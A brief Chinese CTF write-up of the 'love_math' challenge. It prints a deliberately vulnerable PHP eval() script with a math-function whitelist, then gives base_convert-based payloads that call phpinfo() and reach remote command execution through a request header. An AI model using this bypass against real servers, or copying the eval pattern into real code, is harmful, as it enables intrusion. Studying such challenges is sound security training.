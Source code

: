 ## 0x01 love_math

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

首页给了源码

思路很显然是利用数学函数getshell

一般可以利用``dechex``，``base_convert``

base_convert有36进制，0-9+a-z,所以可以利用10进制数构造小写字母字符串，根据php特性，可以构造hex2bin

然后将dechex把10进制数转化成16进制的结果作为hex2bin参数,就可以任意构造字符串

参数的话可以用pi或者pow,这些没有过滤的字符串来替代

poc

```
// phpinfo();
(base_convert(55490343972,10,36))();
```

可以利用exec(getallheader(){8})拿到shell

```
$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){8})
```

在请求包里添加``8:<cmd>`` 即可RCE